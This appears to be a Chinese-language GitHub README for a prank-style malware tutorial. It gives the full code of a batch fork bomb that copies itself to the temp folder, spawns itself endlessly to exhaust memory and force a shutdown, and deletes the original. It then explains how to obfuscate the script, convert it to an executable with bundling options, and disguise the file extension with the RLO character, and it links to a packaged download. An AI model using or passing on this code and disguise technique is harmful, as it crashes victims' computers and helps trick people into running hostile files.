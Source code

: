 
# 打包下载地址 https://yj233.lanzous.com/ic2hu3e 密码:need

一个令电脑内存堆积 导致强制关机的bat
## 我们需要一个ouch.bat
/////手动编辑/////
```bash
(echo :ouch && echo start ouch.bat && echo goto ouch && echo color 2 && echo echo ################## I am YJ, thank u for open this bat,Yours computer will be shutdown ##################) > %temp%/ouch.bat
cd %temp% && ouch.bat
del %0`
```
记事本添加以上代码后，保存修改后缀为bat。'如果你想测试的话可以打开hhh
### CmdEncryption 加密bat文件
不用介绍了 感谢AM电脑吧:年老痴呆
ps:这里我没使用这个 因为没必要 演示一下而已！
#### 之后导入Bat_To_Exe_Converter将bat转换成exe
ps:language可以切换为中文

![battoexe](https://s1.ax1x.com/2020/04/28/JIHGGV.png)
此软件有捆绑功能与填写软件功能 我这里不需要我就不弄了 这是我的配置 自行DIY

##### RLO字符运用
![RLO](https://s1.ax1x.com/2020/04/28/JIbNfP.gif)
看GIF把 不解释了都 
ps:想看后缀请到文件夹设置里设置显示后缀！
附上链接
[点我](https://jingyan.baidu.com/article/ab69b2707a7deb2ca6189f6f.html "点我看看教程")
~~*这个教程真的好小白算是 一个demo了吧*~~
THANK YOU!!!
### END

